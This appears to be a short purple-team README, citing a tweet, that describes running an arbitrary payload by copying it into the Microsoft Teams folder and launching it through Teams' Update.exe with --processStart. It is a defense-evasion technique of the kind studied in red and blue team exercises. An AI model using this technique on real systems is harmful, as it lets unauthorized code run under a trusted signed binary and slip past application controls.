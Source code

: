 # PurpleTeam
https://twitter.com/MrUn1k0d3r/status/1143928885211537408?s=08
  Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\
    Then
  %userprofile%\AppData\Local\Microsoft\Teams\Update.exe --processStart payload.exe --process-start-args "whatever args"

